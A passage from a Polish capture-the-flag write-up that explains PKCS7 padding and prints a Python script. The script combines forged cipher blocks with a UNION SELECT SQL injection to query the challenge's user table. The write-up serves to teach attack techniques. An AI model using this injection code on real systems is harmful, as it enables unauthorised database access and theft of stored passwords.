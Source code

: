 Jest tylko jedna pułapka - padding. Dane szyfrowane szyfrem blokowym muszą mieć długośc równą wielokrotności 16 bajtów. Co jeśli są krótsze?

Jeden z popularnych schematów paddingu (konkretnie, PKCS7) działa tak:
* jeśli danym do wielokrotności 16 bajtów brakuje 1 bajta - doklej na koniec '\x01'
* jeśli danym do wielokrotności 16 bajtów brakuje 2 bajtów - doklej na koniec '\x02\x02'
* jeśli danym do wielokrotności 16 bajtów brakuje 3 bajtów - doklej na koniec '\x03\x03\x03'
* ...
* i uwaga, jeśli danym już są wielokrotnością 16 bajtów - doklej na koniec '\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10'

Ostatni warunek jest konieczny, żeby deszyfrowanie było zawsze jednoznaczne. Tak więc trzeba pamiętać, że ostatni zaszyfrowany blok będzie "fałszywym" blokiem składającym się wyłącznie z bajtów 0x10, i musimy go pominąć a później dokleić na końcu.

Łącząc te wszystkie pomysły, napisaliśmy taki kod [final.py](final.py):

```python
def hack(query):
    parts = encrypt2(query)
    part = ''.join(parts)
    prfx = 'b15fd5ffdae30bbe81f2ba9ec6930473cce0dd7d051074345c5a8090ba39d24c'
    sufx = 'b9719c83f5ab5c0751937a39150c920d'
    return prfx + part + sufx 

def hack2(query):
    payload = hack(query)
    session = '16if76517xm5zvvwn0l09yq8hqwbgdi5'
    cookies = {'sessionid': session}
    cookies[
        'AWSELB'] = '033F977F02D671BCE8D4F0E661D7CA8279D94E64EFD0AA7BC023208F4937F97452EF3E07B21CF2698ED17FB3AE4D8A6166A17A44ACBC6810BEC0739D56BBE463F63CC54BC91275B57E8FE8CBB9B39F65DFAFFA27C1'
    url = 'http://fridge.insomnihack.ch/search/'
    r = requests.get(url + payload, cookies=cookies)
    return r.text

def hack3(query):
    return hack2(' union all select 1, (' + query + '), 3, 4, 5 union all select 1, 2, 3, 4, 5 from objsearch_user ')

import sys
print hack3(sys.argv[1])
```

Pozwala on trywialnie wykonać dowolne zapytanie na bazie - wygląda na to żę zadanie praktycznie zrobione

Jedyne trzy tabele które znaleźliśmy (niestety, nie mamy screenów) to objsearch_user, objsearch_object oraz sqlite_sequence.

Wyciągneliśmy więc po prostu DDL dla objsearch_user:

    CREATE TABLE &quot;objsearch_user&quot; (&quot;id&quot; integer NOT NULL PRIMARY KEY AUTOINCREMENT, &quot;username&quot; varchar(200) NOT NULL, &quot;description&quot; varchar(2000) NOT NULL, &quot;password&quot; varchar(200) NOT NULL, &quot;email&quot; varchar(200) NOT NULL)
